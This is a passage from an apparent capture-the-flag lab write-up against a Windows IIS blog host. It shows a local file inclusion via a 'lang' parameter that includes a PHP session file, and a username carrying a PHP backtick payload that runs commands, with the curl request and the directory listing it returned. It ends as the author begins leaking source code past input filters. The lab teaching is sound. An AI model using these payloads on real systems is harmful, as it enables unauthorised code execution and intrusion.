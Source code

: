 And when I get the session, I can see the results:

```

root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr' | tail

</body>

</html>
username|s:24:"ant authority\iusr
b";</body>
</html>

```

I can now register the following to run a `dir` in the working directory:

```

a<?php echo `dir` ?>b

```

Returns (I’ll just show the part I care about, and cut out the surrounding html):

```

 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\inetpub\wwwroot\blog

04/11/2019  05:23 AM    <DIR>          .
04/11/2019  05:23 AM    <DIR>          ..
04/11/2019  05:28 AM             4,341 blog-en.php
04/11/2019  05:28 AM             4,487 blog-es.php
04/11/2019  05:28 AM             4,489 blog-fr.php
04/11/2019  05:23 AM    <DIR>          css
04/11/2019  05:25 AM             1,357 error.html
04/11/2019  05:25 AM             1,331 header.html
04/11/2019  08:31 PM               442 index.php
04/11/2019  05:23 AM    <DIR>          js
               6 File(s)         16,447 bytes
               4 Dir(s)  16,987,619,328 bytes free

```

#### Leak Source

I want to get the source for `registration.php` so I can understand the filters I’m trying to bypass. But when I try to change directories registering as a user with any characters like `..` and `\`, the login fails, presumably because of the filtering again.

I was able to fumble around enough to get this username registered and logged in:
